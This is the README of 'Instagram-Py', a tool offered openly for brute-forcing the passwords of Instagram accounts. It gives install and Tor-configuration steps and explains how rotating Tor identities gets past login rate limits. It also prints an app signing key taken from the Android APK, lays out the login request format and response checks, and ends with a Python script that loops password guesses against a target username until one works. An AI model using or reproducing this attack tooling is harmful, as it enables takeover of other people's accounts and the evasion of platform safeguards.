 ==============
 Instagram-Py 
==============

    | Instagram-py performs slick brute force attack on Instagram without any type of password limiting
    | and also resumes your attack in ease. 
    
    --DeathSec


.. image:: https://img.shields.io/github/issues/deathsec/instagram-py.svg?style=flat-square   
      :target: https://github.com/deathsec/instagram-py/issues

.. image:: https://img.shields.io/github/forks/deathsec/instagram-py.svg?style=flat-square   
      :target: https://github.com/deathsec/instagram-py/network
      
.. image:: https://img.shields.io/github/stars/deathsec/instagram-py.svg?style=flat-square
      :target: https://github.com/deathsec/instagram-py/stargazers

.. image:: https://img.shields.io/badge/license-MIT-blue.svg?style=flat-square   
      :target: https://raw.githubusercontent.com/deathsec/instagram-py/master/LICENSE

.. image:: https://img.shields.io/pypi/v/instagram-py.svg?style=flat-square
      :target: #



  
.. image:: https://raw.githubusercontent.com/deathsec/instagram-py/v2.x.x/preview.gif

.. image:: http://forthebadge.com/images/badges/built-with-love.svg
      :target: #
.. image:: http://forthebadge.com/images/badges/60-percent-of-the-time-works-every-time.svg
      :target: #
      
.. image:: http://forthebadge.com/images/badges/made-with-python.svg
      :target: #
      

      
-------
 Why?
-------

| **I Actually** started this **project** for **proof of concept** that we can brute force **Instagram** forever.
| When I created the prototype and posted on **Twitter** , I got a **lot of people** who wanted a simple slick tool to execute 
| brute force attack on **Instagram** , So I thought why reinvent the wheel?....
| So I searched **Github** and found nothing worth value , some were fake or poorly engineered!
| And here it is **a Authentic brute force tool for Instagram**


------
 How?
------

| We use , **tor** to change our ip once blocked for many tries and continue attack.
| Since the official api is not a hacker wants, So we use the **InstagramAPK signature** to stay **anonymous!**
| And we also **save** the **progress** so that even in network interruption we can avoid breaking the computer!

 **See the 'Algorimthm' section down below for more hackery!**

-------
 What?
-------

| **Instagram-Py** is a slick python script to perform  **brute force** attack against **Instagram** ,   
| this script can **bypass** login limiting on wrong passwords ,  so basically it can test **infinite number of passwords**.
| Instagram-Py is **proved** and can test **over 6M** passwords on a single instagram account with **less resource** as possible
| This script mimics the activities of the official **instagram android app** and sends request over **tor** so you are secure ,
| but if your **tor** installation is **misconfigured** then the blame is on you.


------------
 Features
------------

* Instagram-Py Scripting

  Craft your own python script which will embed into Instagram-Py for Maximum Customization of your
  brute force attack , example: What if you want a message sent to your phone when an account is hacked?

* Resumes Attacks when the same wordlist is used on the same Username
* Dumps successfully cracked accounts in the dump
* Maximum Customization! ( This includes multiple attack vectors! )
* Fast and Clean Code , no ugly selenum drivers! ( Pure Requests )
* Elegant Tor Identity Change with Stem ( Tor's Official Library for Python )


**Depends on**: python3 , tor ,  requests , requests[socks] , stem

==============
 Installation
==============
---------------------------------
 Upgrading Instagram-Py with pip
---------------------------------

::

 $ sudo pip3 install instagram-py --upgrade


-------------------------------
 using pip to get Instagram-py
-------------------------------

**Make sure you have got the latest version of pip(>= 9.0 and python(>= 3.6)**

::

 $ sudo easy_install3 -U pip # you have to install python3-setuptools , update pip
 $ sudo pip3 install requests --upgrade
 $ sudo pip3 install requests[socks]
 $ sudo pip3 install stem
 $ sudo pip3 install instagram-py
 $ instagram-py # installed successfully
 $ # Configuration is Super Important so Lets Create One
 $ instagram-py --create-configuration # follow the steps... 

--------------------------------
    Configuring Instagram-Py
--------------------------------

**As of v2.0.0 Configuration is Simply done by Passing an Argument to Instagram-Py**

::

 $ instagram-py --create-configuration
 $      # OR
 $ instagram-py -cc



**Or if you just want the default settings without the annoying questions then**

::

 $ instagram-py --create-configuration --default-configuration
 $      # OR
 $ instagram-py -cc -dc



--------------------------------------------------
    Configuring Tor server to open control port
--------------------------------------------------

open your **tor configuration** file usually located at **/etc/tor/torrc**


::
 
 $ sudo vim /etc/tor/torrc # open it with your text editor
 

**search** for the file for this **specific section**

::

 ## The port on which Tor will listen for local connections from Tor
 ## controller applications, as documented in control-spec.txt.
 #ControlPort 9051
 
**uncomment** 'ControlPort' by deleting the **#** before 'ControlPort' , **now save the file and restart your tor server**

**now you are ready to crack any instagram account , make sure your tor configuration matched ~/instapy-config.json** 

=============
    Usage
=============

**Finally** , now you can use instagram-py!

**Instagram-Py Scripting lets you run Custom Python Scripts Inside Instagram-Py!**

**Never Run Instagram-Py with Multiple Instance! , Use Instagram-Py Scripting Instead!**


::

 $ instagram-py -u your_account_username -pl path_to_password_list


**Note**: Without the **-c** optional argument , instagram-py **will not continue the attack**

::

 usage: instagram-py [-h] [--username USERNAME] [--password-list PASSWORD_LIST]
                     [--script SCRIPT] [--inspect-username INSPECT_USERNAME]
                     [--create-configuration] [--default-configuration]
                     [--countinue] [--verbose]
 
 optional arguments:
   -h, --help            show this help message and exit
   --username USERNAME, -u USERNAME
                         username for Instagram account
   --password-list PASSWORD_LIST, -pl PASSWORD_LIST
                         password list file to try with the given username.
   --script SCRIPT, -s SCRIPT
                         Instagram-Py Attack Script.
   --inspect-username INSPECT_USERNAME, -i INSPECT_USERNAME
                         Username to inspect in the instagram-py dump.
   --create-configuration, -cc
                         Create a Configuration file for Instagram-Py with
                         ease.
   --default-configuration, -dc
                         noconfirm for Instagram-Py Configuration Creator!
   --countinue, -c       Countinue the previous attack if found.
   --verbose, -v         Activate Verbose mode. ( Verbose level )

 example: instagram-py -c -vvv -u instatestgod__ -pl rockyou.txt

 Report bug, suggestions and new features at https://github.com/deathsec/instagram-py



========================
 Instagram-Py Scripting
========================

Instagram-Py now lets you run your custom scripts inside of it for maximum customization of your attacks.
This Scripts are simple Python Scripts ( You Can just do anything that is possible with python )

Refer the Wiki to get full information about Instagram-Py Scripting , https://github.com/deathsec/instagram-py/wiki
Also look into the **examples** tree present in this repo , it contains simple example scripts.

**You Can Always View the Cracked Passwords Using this command!**

::

 $ instagram-py -i instatestgod__
 $ # Displays record if it is cracked in the past!

===========
 Algorithm
===========

**Instagram-Py** uses a very simple algorithm for checking passwords efficiently , this section is dedicated for those who
wish to recreate this program in any other language.


**You can see this live when you run the tool in max verbosity**

::

 $ instagram-py -vvv -u instatestgod__ -pl password_list.lst

**You can also use Instagram-Py as a module , so that you can also use it in your script**

-------------
 What we do
-------------

**Step 1:** Get the magic cookie , which is used to verify device integrity!

Getting the magic cookie is the simplest job , all we need to do is send a get request to **https://i.instagram.com/api/v1/si/fetch_headers/?challenge_type=signup&guid=** , where the **guid** get parameter is a random 32 character string.
The random 32 character string can be generator using python's simple **uuid library** , to be specific **v4** of **UUID**.
So finally we just have to request the url **https://i.instagram.com/api/v1/si/fetch_headers/?challenge_type=signup&guid=800e88b931bf491fa3b4a7afa4e679eb** and get the cookie named **csrftoken** , if we observe the **response header** we
could see that our cookie only **expires** next **year** the same day. So by this we only have to make this request once
and can use it for a year! How vulnerable is that?... 

.. image:: https://raw.githubusercontent.com/deathsec/instagram-py/master/observations/cookies.png 
      :target: #


**Step 2:** Build a post request with Instagram's signature.

This part is **simple** but may be difficult to setup , first i need to get instagram's signature
which is only present in their free apk from google play , Remember our **Strength can be our Weakness**
, All i have to do reverse engineer the apk and find the signature, lets call it **ig_sig**.

::
 
 ig_sig = 4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178
 ig_version = 4

**Instagram** uses **HMAC Authentication** for login stuff, so lets use python's **hmac library**.
But first we have to build our body which will be encoded in json for it to actually sign with 
**ig_sig** , So the post **body** looks likes this...


::
 
 phone_id   = <RANDOM 32 CHARACTER STRING SEPERATED WITH - on EQUAL INTERVALS>
 _csrftoken = <THE MAGIC COOKIE THAT WE GOT!>
 username   = <TARGET ACCOUNT>
 guid       = <RANDOM 32 CHARACTER STRING SEPERATED WITH - on EQUAL INTERVALS>
 device_id  = android-<RANDOM 16 CHARACTER STRING>
 password   = <PASSWORD TO TRY>
 login_attempt_count = 0


The above will be encoded to **JSON** , So to test the password we have to post the data to this url
**https://i.instagram.com/api/v1/accounts/login/ig_sig_key_version=4&signed_body=<SIGNED BODY>.<URL ENCODED JSON DATA>** .

**<SIGNED BODY>:** using **HMAC** , sign our json encoded data with **ig_sig** and return a hexa value.

**<URL ENCODED JSON DATA>:** the same data in json but we url encode so that it goes properly to insta!

So to test a account with username as **USERNAME** and password with **PASSWORD** we simply request this
url **https://i.instagram.com/api/v1/accounts/login/ig_sig_key_version=4&signed_body=bc90e1b7d430f39152e92b4e7d517bfb231dbe0515ed2071dc784cf876e301c3.%7B%22phone_id%22%3A%20%2232abb45c-f605-4fd7-9b5e-674115516b90%22%2C%20%22_csrftoken%22%3A%20%22PyMH2niVQrk41UIBW0lKilleG7GylluQ%22%2C%20%22username%22%3A%20%22USERNAME%22%2C%20%22guid%22%3A%20%2267ca220c-a9eb-4240-b173-2d253808904d%22%2C%20%22device_id%22%3A%20%22android-283abce46cb0a0bcef4%22%2C%20%22password%22%3A%20%22PASSWORD%22%2C%20%22login_attempt_count%22%3A%20%220%22%7D** 

**Take a look** how I did it... 

.. image:: https://raw.githubusercontent.com/deathsec/instagram-py/master/observations/login_create.png


**Step 3:** With the json response and response code , we determine the password is correct or wrong.

if **We get response 200** then the login is success but if we get **response 400** , We inspect the
**json data** for clues if it is the **correct password or invalid request or too many tries**.
So we inspect the **message** from instagram json response!

**Message = Challenge Required** , then the password is correct but instagram got some questions so
we must wait until the user logs in and answer the question and if we are lucky they will not change
the password and we could login in later(**Most of the time people won't change the password!**)

**Message = The password you entered is incorrect.** , then the password is incorrect for sure , try
another.

**Message as something like word invalid in it then** , some other error so just try again, can happen
because of wordlist encoding error which i ignored because all the worldlist have encoding error!

**Message = Too many tries** , Time to change our ip and loop but we don't want to change our magic cookie

**Thats it you just hacked instagram with a very simple algorithm!**

==============
 Contribution
==============

.. image:: https://img.shields.io/github/contributors/deathsec/instagram-py.svg?style=flat-square


Contribute anything you can to this repo **(Issues | Pull request)** , help is much **appreciated**.

**Please Refer CONTRIBUTING.rst for more information on contributing code!**


===========================
 Using Instagram-Py as API
===========================

**Instagram-Py supports to be used as a module as of v1.3.2 , so you don't want to reproduce my code. Just use it!**

For some reason you wish not to use my software then you can use my software as a module and embed into your own
software , anyway its native so its just gonna run the same as the official command-line tool unless you do something crazy.

**Follow the same installation method mentioned above to install Instagram-Py API.**

This is a simple script to conduct a bructe force attack using instagram-py as a API.

::

 #!/usr/bin/env python3
 '''
   This is the same thing that is in the __init__ file of the command-line
   tool.
 '''
 from InstagramPy.InstagramPyCLI import InstagramPyCLI
 from InstagramPy.InstagramPySession import InstagramPySession , DEFAULT_PATH
 from InstagramPy.InstagramPyInstance import InstagramPyInstance
 from datetime import datetime
 
 username = "TARGET ACCOUNT USERNAME"
 password = "PASSWORD LIST PATH"

 appInfo = {
    "version"     : "0.0.1",
    "name"        : "Instagram-Py Clone",
    "description" : "Some Module to crack instagram!",
    "author"      : "YourName",
    "company"     : "YourCompany",
    "year"        : "2017",
    "example"     : ""
 }

 cli = InstagramPyCLI(appinfo = appInfo , started = datetime.now() , verbose_level = 3)
 
 '''
 # USE THIS IF YOU WANT
 cli.PrintHeader()
 cli.PrintDatetime()
 '''
 session = InstagramPySession(username , password , DEFAULT_PATH , DEFAULT_PATH , cli)
 session.ReadSaveFile(True) # True to countinue attack if found save file.
 '''
 # USE THIS IF YOU WANT
 cli.PrintMagicCookie(session.magic_cookie)
 '''

 '''
  Defining @param cli = None will make Instagram-Py run silently so you
  can you use your own interface if you like.
  or if you want to use the official interface then declare like this

  instagrampy = InstagramPyInstance(cli = cli , session = session)

 '''

 instagrampy = InstagramPyInstance(cli = None ,session = session)
 while not instagrampy.PasswordFound():
        print('Trying... '+session.CurrentPassword())
        instagrampy.TryPassword()

 if instagrampy.PasswordFound():
        print('Password Found: '+session.CurrentPassword())

 exit(0) 



**Refer the Wiki to get full information about the api , https://github.com/deathsec/instagram-py/wiki**




=============
   License
=============

The MIT License,

Copyright (C) 2017 The Future Shell , DeathSec
